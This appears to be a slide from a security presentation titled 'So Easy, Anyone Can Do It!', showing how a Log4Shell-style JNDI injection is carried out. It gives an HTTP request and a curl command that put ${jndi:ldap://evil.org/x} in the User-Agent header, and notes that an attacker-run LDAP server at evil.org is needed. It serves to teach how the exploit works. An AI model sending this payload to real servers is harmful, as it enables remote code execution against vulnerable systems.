

# So Easy, Anyone Can Do It!
GET / HTTP 1.1
Host: victim
User-Agent: ${jndi:ldap://evil.org/x}

curl -H "User-Agent: ${jndi:ldap://evil.org/x}" http://victim

(Oh and have a running malicious LDAP server listening at evil.org/x…)